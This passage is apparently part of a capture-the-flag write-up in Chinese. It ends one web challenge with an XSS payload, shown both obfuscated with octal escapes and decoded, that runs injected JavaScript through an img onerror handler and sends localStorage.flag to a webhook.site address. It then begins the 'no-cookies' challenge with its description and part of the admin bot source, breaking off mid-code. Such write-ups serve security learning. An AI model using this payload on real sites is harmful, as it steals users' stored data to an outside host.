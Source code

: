 payload

```js
ﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄﬄ<img src=x onerror="''['\141\164']['\137\137\160\162\157\164\157\137\137']['\143\157\156\163\164\162\165\143\164\157\162']('\146\145\164\143\150(`\150\164\164\160\163://\167\145\142\150\157\157\153.\163\151\164\145/90396\1465\141-59\146\141-40\146\145-\14182\146-\145\14421\1415\14611009?Q=${\154\157\143\141\154S\164\157\162\141\147\145.\146\154\141\147}`)')()"/>
```

```js
<img src=x onerror="''['at']['__proto__']['constructor']('fetch(`https://webhook.site/90396f5a-59fa-40fe-a82f-ed21a5f11009?Q=${localStorage.flag}`)')()"/>
```

## web/no-cookies

> I found a more secure way to authenticate users. No cookies, no problems!
>
> [instancer.mc.ax/no-cookies](https://instancer.mc.ax/no-cookies)  |  [Admin Bot](https://admin-bot.mc.ax/no-cookies)
>
> [dist.tar](https://static.dicega.ng/uploads/40115eacc0285fc48defd70f48bd24608ca8ffa8b5600c0e7ed0308b780b432d/dist.tar)  |  [index.js](https://static.dicega.ng/uploads/d53bcd4311512459be586dede3b593170870500465dce9bada612dcfda0b101d/index.js)  |  [admin-bot.js](https://static.dicega.ng/uploads/c53891883a44e368d11a50bd8c13285009bf907571e4b826dee8f73d8d09ecb5/admin-bot.js)

还是先看admin bot

```js
import flag from './flag.txt';

function sleep(time) {
  return new Promise((resolve) => {
    setTimeout(resolve, time);
  });
}

export default {
  id: 'no-cookies',
  name: 'no-cookies',
  urlRegex:
    /^https:\/\/no-cookies-[a-f0-9]{16}\.mc\.ax\/view\?id=[a-f0-9]{32}$/,
  timeout: 10000,
  extraFields: [
    {
      name: 'instance',
      displayName: 'Instance ID',
      placeholder: 'no-cookies-{THIS}.mc.ax',
      regex: '^[0-9a-f]{16}$',
    },
  ],
  handler: async (url, ctx, { instance }) => {
    const page = await ctx.newPage();

    const doLogin = async (username, password) => {
      return new Promise((resolve) => {
        page.once('dialog', (first) => {
          page.once('dialog', (second) => {
            second.accept(password);
          });
          first.accept(username);
          resolve();
        });
      });
```
